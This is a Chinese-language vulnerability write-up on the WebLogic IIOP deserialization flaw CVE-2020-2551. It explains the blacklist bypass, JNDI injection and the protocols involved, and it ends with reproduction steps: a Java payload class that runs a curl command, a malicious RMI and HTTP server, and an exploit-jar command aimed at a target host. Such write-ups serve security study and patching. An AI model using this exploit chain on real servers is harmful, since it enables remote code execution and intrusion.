



# Weblogic IIOP反序列化漏洞

[手把手教你解决Weblogic CVE-2020-2551 POC网络问题 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7498)

# 漏洞描述

 2020年1月15日,Oracle发布了一系列的安全补丁,其中Oracle WebLogic Server产品有高危漏洞,漏洞编号CVE-2020-2551,CVSS评分9.8分,漏洞利用难度低,可基于IIOP协议执行远程代码。

经过分析这次漏洞主要原因是错误的过滤JtaTransactionManager类，JtaTransactionManager父类AbstractPlatformTransactionManager在之前的补丁里面就加入到黑名单列表了,T3协议使用的是resolveClass方法去过滤的,resolveClass方法是会读取父类的,所以T3协议这样过滤是没问题的。但是IIOP协议这块,虽然也是使用的这个黑名单列表,但不是使用resolveClass方法去判断的,这样默认只会判断本类的类名,而JtaTransactionManager类是不在黑名单列表里面的,它的父类才在黑名单列表里面,这样就可以反序列化JtaTransactionManager类了,而JtaTransactionManager类是存在jndi注入的。

# 编号

CVE-2020-2551

CNNVD-202001-675

CNVD-2020-12879


# 影响版本

- Weblogic 10.3.6.0.0
- Weblogic 12.1.3.0.0
- Weblogic 12.2.1.3.0
- Weblogic 12.2.1.4.0

# 漏洞环境

172.17.200.50

# 补充信息

**1.背景**

2020年1月15日,Oracle发布了一系列的安全补丁,其中Oracle WebLogic Server产品有高危漏洞,漏洞编号CVE-2020-2551,CVSS评分9.8分,漏洞利用难度低,可基于IIOP协议执行远程代码。

近年来Weblogic不断爆出漏洞，其中T3协议漏洞比较多，运维人员已经渐渐在Weblogic上关闭了T3协议，今年也出现T3协议漏洞CVE-2020-2555，个人觉得CVE-2020-2551的危害更大。

**第一是因为Weblogic IIOP协议默认开启，跟T3协议一起监听在7001或其他端口。
第二是Weblogic IIOP协议漏洞是第一次出现，漏洞一时半会修复不完，一定时间内继续会有利用价值。**

互联网中公布了几篇针对该漏洞的分析文章以及POC，但公布的 POC 有部分不足之处，导致漏洞检测效率变低，不足之处主要体现在：
1.**公布的 POC 代码只针对直连（内网）网络有效，Docker、NAT 网络全部无效。**
2.公布的 POC 代码只支持单独一个版本，无法适应多个 Weblogic 版本。

CVE-2020-2551漏洞在不同Weblogic版本的利用有些不同,因为IIOP的相关流程有所变动，以10.3.6.0.0 和 12.1.3.0.0 为一个版本（低版本），12.2.1.3.0 和 12.2.1.4.0 为另外一个版本（高版本）。

**本次分享主要是对Weblogic 10.3.6.0（低版本）的网络问题进行分析，并改进POC，高版本POC改进可参考低版本分析流程。**

**2.漏洞分析**

经过分析这次漏洞主要原因是错误的过滤JtaTransactionManager类。
JtaTransactionManager父类AbstractPlatformTransactionManager在之前的补丁里面就加入到黑名单列表了,T3协议使用的是resolveClass方法去过滤的,resolveClass方法是会读取父类的,所以T3协议这样过滤是没问题的。

但是IIOP协议这块,虽然也是使用的这个黑名单列表,但不是使用resolveClass方法去判断的,这样默认只会判断本类的类名,而JtaTransactionManager类是不在黑名单列表里面的,它的父类才在黑名单列表里面,这样就可以反序列化JtaTransactionManager类了,而JtaTransactionManager类是存在JNDI注入的。

漏洞利用过程：
1.通过JNDI方式利用IIOP协议向Weblogic申请注册远程对象，这个对象由jtaTransactionManager构造，它存在已知漏洞，在反序列化时会通过JNDI去加载对象，而JNDI的地址是可以由攻击者控制的。
2.Weblogic反序列化jtaTransactionManager，通过LDAP/RMI协议获取到JNDI引用，接着解码JNDI引用（JNDI引用会指定恶意远程对象的HTTP获取地址），然去加载恶意远程对象，将其实例化，触发恶意对象的静态构造方法，执行恶意载荷。

**3.相关概念**

为了能够更好的理解本文稿中所描述 RMI、IIOP、GIOP、CORBA 等协议名称，下面来进行简单介绍。

**3.1.RMI**
RMI英文全称为Remote Method Invocation，字面的意思就是远程方法调用，其实本质上是RPC服务的JAVA实现，底层实现是JRMP协议，TCP/IP作为传输层。通过RMI可以方便调用远程对象就像在本地调用一样方便。使用的主要场景是分布式系统。

**3.2.LDAP**

LDAP（Lightweight Directory Access Protocol ，轻型目录访问协议）是一种目录服务协议，运行在TCP/IP堆栈之上。LDAP目录服务是由目录数据库和一套访问协议组成的系统，目录服务是一个特殊的数据库，用来保存描述性的、基于属性的详细信息，能进行查询、浏览和搜索，以树状结构组织数据。LDAP目录服务基于客户端-服务器模型，它的功能用于对一个存在目录数据库的访问。 LDAP目录和RMI注册表的区别在于是前者是目录服务，并允许分配存储对象的属性。常见应用于查询多，修改少的场景，比如通讯录，统一身份认证等。

**3.3.JNDI**

JNDI (Java Naming and Directory Interface) ，包括Naming Service和Directory Service。JNDI是Java API，允许客户端通过名称发现和查找数据、对象。这些对象可以存储在不同的命名或目录服务中，例如远程方法调用（RMI），公共对象请求代理体系结构（CORBA），轻型目录访问协议（LDAP）或域名服务（DNS）。

Naming Service：命名服务是将名称与值相关联的实体，称为"绑定"。它提供了一种使用"find"或"search"操作来根据名称查找对象的便捷方式。 就像DNS一样，通过命名服务器提供服务，大部分的J2EE服务器都含有命名服务器 。例如上面说到的RMI Registry就是使用的Naming Service。

Directory Service：是一种特殊的Naming Service，它允许存储和搜索"目录对象"，一个目录对象不同于一个通用对象，目录对象可以与属性关联，因此，目录服务提供了对象属性进行操作功能的扩展。一个目录是由相关联的目录对象组成的系统，一个目录类似于数据库，不过它们通常以类似树的分层结构进行组织。可以简单理解成它是一种简化的RDBM系统，通过目录具有的属性保存一些简单的信息,常见的就是LDAP。

JNDI好处：
JNDI自身并不区分客户端和服务器端，也不具备远程能力，但是被其协同的一些其他应用一般都具备远程能力，JNDI在客户端和服务器端都能够进行一些工作，客户端上主要是进行各种访问，查询，搜索，而服务器端主要进行的是帮助管理配置，也就是各种bind。比如在RMI服务器端上可以不直接使用Registry进行bind，而使用JNDI统一管理，当然JNDI底层应该还是调用的Registry的bind，但好处JNDI提供的是统一的配置接口，把RMI换成其他的例如LDAP、CORBA等也是同样的道理。



JNDI示例代码：





**3.3.1.JNDI注入**

**3.3.1.1.JNDI Reference+RMI攻击向量**

JNDI特性：
如果远程获取到RMI服务上的对象为 Reference类或者其子类，则在客户端获取远程对象存根实例时，可以从其他服务器上加载 class 文件来进行实例化获取Stub对象。

Reference中几个比较关键的属性：

className - 远程加载时所使用的类名，如果本地找不到这个类名，就去远程加载
classFactory - 远程的工厂类
classFactoryLocation - 工厂类加载的地址，可以是file://、ftp://、http:// 等协议
使用ReferenceWrapper类对Reference类或其子类对象进行远程包装使其能够被远程访问，客户端可以访问该引用。

```
Reference refObj = new Reference("refClassName", "FactoryClassName", "http://example.com:12345/");//refClassName为类名加上包名，FactoryClassName为工厂类名并且包含工厂类的包名
ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registry.bind("refObj", refObjWrapper);//这里也可以使用JNDI的ctx.bind("Foo", wrapper)方式，都可以
```

当有客户端通过lookup("refObj") 获取远程对象时，获得到一个 Reference 类的存根，由于获取的是一个 Reference类的实例，客户端会首先去本地的 CLASSPATH 去寻找被标识为 refClassName 的类，如果本地未找到，则会去请求 http://example.com:12345/FactoryClassName.class 加载工厂类，实例化时会自动初始化构造方法，从而运行攻击载荷。

```
import java.io.IOException;
        public class FactoryClassName {
            public FactoryClassName () {
                String cmd = "curl http://172.16.1.1/success";
                try {
                    Runtime.getRuntime().exec(cmd).getInputStream();
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
        }
```

**3.3.1.2.JNDI+LDAP攻击向量**

LDAP的利用过程跟RMI大体类似，大家可以看下参考链接，
Java 中 RMI、JNDI、LDAP、JRMP、JMX、JMS那些事儿（上） https://paper.seebug.org/1091/

实战中用LDAP比较多，因为服务器JDK版本限制比RMI少点。RMI在JDK 6u132、JDK 7u122、JDK 8u113 之后，系统属性
com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false，即默认不允许RMI、cosnaming从远程的Codebase加载Reference工厂类。

LDAP使用序列化方式目前已知jdk1.8.0_102后com.sun.jndi.ldap.object.trustURLCodebase属性默认为false，使用JNDI引用方式在JDK 11.0.1、8u191、7u201、6u211之后 com.sun.jndi.ldap.object.trustURLCodebase属性默认为false。

**3.3.1.3.已知的JNDI注入**

上面讲的攻击向量有个重要前提，就是你用JNDI bind方法注册了对象，需要服务器用JNDI lookup方法去调用你的对象，服务器才中招，正常情况下后台不会随意去调用别人的远程对象。大牛们发现，有些原生库的类在反序列化或使用时会自动进行JNDI lookup，而且lookup 的远程URL可被攻击者控制，可以利用这些类进行攻击。

1、org.springframework.transaction.jta.JtaTransactionManager
org.springframework.transaction.jta.JtaTransactionManager.readObject()方法最终调用了 InitialContext.lookup()，并且最终传递到lookup中的参数userTransactionName能被攻击者控制。

2、com.sun.rowset.JdbcRowSetImpl
com.sun.rowset.JdbcRowSetImpl.execute()最终调用了InitialContext.lookup()

3、javax.management.remote.rmi.RMIConnector
javax.management.remote.rmi.RMIConnector.connect()最终会调用到InitialContext.lookup()，参数jmxServiceURL可控

4、org.hibernate.jmx.StatisticsService
org.hibernate.jmx.StatisticsService.setSessionFactoryJNDIName()中会调用InitialContext.lookup()，并且参数sfJNDIName可控

**3.4.CORBA**

Common Object Request Broker Architecture（公共对象请求代理体系结构）是由OMG(Object Management Group)组织制定的一种标准分布式对象结构。使用平台无关的语言IDL（interface definition language）描述连接到远程对象的接口，然后将其映射到制定的语言实现。
一般来说CORBA将其结构分为三部分，为了准确的表述，将用其原本的英文名来进行表述：
• naming service
• client side
• servant side

这三部分组成了CORBA结构的基础三元素，而通信过程也是在这三方间完成的。我们知道CORBA是一个基于网络的架构，所以以上三者可以被部署在不同的位置。servant side 可以理解为一个接收 client side 请求的服务端；naming service 对于 servant side 来说用于服务方注册其提供的服务，对于 client side 来说客户端将从 naming service 来获取服务方的信息。

用淘宝来举例，淘宝网站就是servant side,店铺就是name service,顾客就是client side，店铺name service向淘宝 servant side 注册店铺，顾客client side 访问淘宝servant side去找到店铺name service。

**3.5.IIOP、GIOP**

GIOP全称（General Inter-ORB Protocol）通用对象请求协议，其功能简单来说就是CORBA用来进行数据传输的协议。GIOP针对不同的通信层有不同的具体实现，而针对于TCP/IP层，其实现名为IIOP（Internet Inter-ORB Protocol）。所以说通过TCP协议传输的GIOP数据可以称为IIOP。

**3.6.RMI-IIOP**

RMI-IIOP出现以前，只有RMI和CORBA两种选择来进行分布式程序设计，二者之间不能协作。但是现在有了RMI-IIOP，稍微修改代码即可实现RMI客户端使用IIOP协议操作服务端CORBA对象，这样综合了RMI的简单性和CORBA的多语言性兼容性，RMI-IIOP克服了RMI只能用于Java的缺点和CORBA的复杂性。

在Weblogic中实现了RMI-IIOP模型。

## 漏洞复现

下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java

```java
package payload;

import java.io.IOException;

public class exp {

    public exp() {
        String cmd = "curl http://172.16.1.1/success";
        try {
            Runtime.getRuntime().exec(cmd).getInputStream();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

**尽量使用和weblogic相同的jdk版本和依赖库(wlfullclient.jar)编译** 然后本地起一个web服务器

```python
python -m http.server --bind 0.0.0.0 80
```

命令行运行jar包

```shell
java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp
```


